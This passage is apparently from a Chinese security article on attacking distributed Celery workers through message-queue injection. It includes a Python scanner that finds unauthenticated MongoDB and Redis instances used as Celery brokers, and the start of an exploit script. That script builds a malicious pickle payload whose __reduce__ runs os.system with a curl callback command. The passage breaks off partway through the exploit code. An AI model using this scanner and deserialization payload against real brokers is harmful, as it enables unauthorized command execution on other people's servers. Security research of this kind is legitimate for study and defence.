 针对未授权的 Redis 服务，直接对所有 KEYS 值进行特征匹配，如果遇到其 KEY 值包含有 `['celery', 'unacked', '_kombu.binding']` 中任意一个字符串即可判断该服务作为了 Celery 应用的消息队列中间件。

```python
# celery_broker_mongodb_check.py
...
CELERY_COLLECTIONS = ['messages.routing', 'messages.broadcast']
def run(seed):
    try:
        ip, port = seed.split(':')
    except ValueError as ex:
        ip, port = seed, 27017
    conn = pymongo.MongoClient(ip, int(port), connectTimeoutMS=2000,
                               serverSelectionTimeoutMS=2000)
    dbs = conn.database_names()
    info = dict(succeed=False, results=dict())
    for db in dbs:
        colnames = conn.get_database(db).collection_names()
        for _col in CELERY_COLLECTIONS:
            if any(_col in colname for colname in colnames):
                info['succeed'] = True
                info['results'][db] = colnames
                continue
    return info
...
```

而由于 Celery 在使用 MongoDB 的时候需要指定数据库，所以需要对存在未授权访问的 MongoDB 中的每一个数据库都进行检测，判断其中的集合名称是否符合条件，若符合即可判断其作为了消息队列中间件。

#### 2. 使用脚本进行消息注入攻击分布式节点

使用上面两个脚本在本地环境进行测试：

![](/images/articles//2016-09-22-attacking-distributed-nodes-by-message-queue-injection/14.png)

这里要说明的一个问题就是，不是所有使用了 Celery 分布式框架的应用都配置了 `pickle` 的序列化方式，**若其只配置了 JSON 等其他安全的序列化方式，则就无法利用 Python 反序列化进行命令执行了**。

一个简单的真对 Redis Broker 类型的攻击脚本：

```python
# celery_broker_redis_exp.py
import re
import json
import redis
import pickle
import base64

evil_command = 'curl http://127.0.0.1:8000/{}'

def create_evil_task_body(command, body_encoding='base64'):
    class Command(object):
        def __reduce__(self):
            import os
            return (os.system, (command, ))
    if body_encoding == 'base64':
        return base64.b64encode(pickle.dumps(Command()))

def create_evil_message(body):
```